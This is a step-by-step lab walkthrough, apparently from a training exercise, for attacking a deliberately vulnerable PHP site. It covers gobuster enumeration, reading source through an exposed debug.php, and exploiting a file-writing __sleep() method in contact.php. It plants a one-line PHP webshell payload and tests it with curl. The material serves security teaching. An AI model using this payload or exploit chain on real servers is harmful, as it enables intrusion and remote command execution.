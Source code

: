 1. On the attacker-10 vm, open a terminal. To access the attacker-10 vm, on your browser,
   enter the address http://attacker_ip or ``localhost:6080/`` to access the VNC session. You may run ``` docker inspect          <image tag name> ``` to find the container's IP address.

2. Enter the command ``apt update -y && apt upgrade -y && apt install
   gobuster -y`` to install a tool called gobuster.

3. Open a terminal in victim. Type the command ifconfig to check the IP of the server.

4. On the attacker-10 vm, open firefox browser, or install any browser you like. Enter
   http://victim_ip to the URL bar to access the VNC session

5. Try going through the website like a normal user, is there anywhere you can exploit,
   anything you can enter?

6. Then, on the attacker vm. use the command ``gobuster -w
   /wordlist/wordlist_php -u http://victim_ip`` to list the directory and hidden
   file on the webserver. Feel free to try other web enumeration tools, and use different
   wordlist as well.

7. After running the gobuster rto enumerate the hidden file on the webserver, you will find a
   new file called debug.php running on the website. To open debug.php, use the command
   http://victim_ip/debug.php

8. Now you have found the debug.php, it’s a mistake made by the developer. To access the
   source code of debug.php, you can enter the URL: ``view-source:http://<victim's IP address>/debug.php?read=debug.php`` to view the source code of the
   debug.php.

9. In the source code of debug.php, there are two Get parameters you can manipulate. One
   is called read and the other is execute. read can let you check the source code of the
   websites and execute will allow you to execute file contain PHP source code

10. When you run the gobuster tool, I am sure you have also found another php file called
   contact.php. contact.php is the file where the website will process the contact information
   entered by user, we can see the source code of this file by entering the URL:
   http://<victim's IP address>/debug.php?read=contact.php

11. Upon reviewing the source code of contact.php file, what have you found? There is a
   critical vulnerability in the file, a deserialization vulnerability.
   ```
   <?php
   # Omitted some code
   
   $new_customer = new customer;
   $new_customer->name = $name;
   $new_customer->email = $email;
   $new_customer->comment = $comment;
   $temp = serialize($new_customer);
   
   # Omitted some code
   
   class customer
   {
      public $name;
      public $email;
      public $comment;
      public function __sleep()
      {
         // Write the content to file once the object is serialized
         $filename = $this->name . '_' . $this->email;
         file_put_contents("./user_info/$filename", $this-
   >comment, FILE_USE_INCLUDE_PATH);
      }
   }
   ?>
   ```
12. A closer look at the preceding code reveals that the vulnerability exists in the magic
   function __sleep() defined in the class customer. The logic in the function __sleep()
   shows that once an instance of class customer is serialized, it will write a file to a
   directory in the web root directory.

13. Now we know there is a vulnerability in the code, how do we use this vulnerability?
   Recall earlier I asked you to find the parameter you can interact with on the website,
   there is a webpage where you can enter user defined text. To navigate to this page, enter
   the URL http://<victim_ip>/contact.html to access the page.

14. On this page, there are three parameters you can define: name, email, and comment. If
    you still remember the source code of the contact.php file, you can make an educated
    guess that the contact.php will handle the post request sent by contact.html form. If you
    want to verify that, you can also download burpsuites and verify. Or you can also
    examine the source code of the contact.html page to see where the POST request is sent
    to.

16. To exploit the vulnerability we see before, enter test in the name bar, enter user.php in the
    email bar, and <?php $exec = system( $_GET['cmd'] ) ?> in the comment section. After
    entering all the text, click submit to plant the webshell
    ```
    root:~# curl http://<victim's IP address>/user_info/test_user.php?cmd=whoami root
    ```

18. On the attacker VM, use the command curl
    http://<victim's IP address>/user_info/test_user.php?cmd=whoami to test whether the planted
    webshell is working or not.

19. A secure server is running on the address <secure's IP address>, you are welcome to try attacking
    it, but it does not have the deserialization vulnerability and misconfiguration present on
    the victim VM.
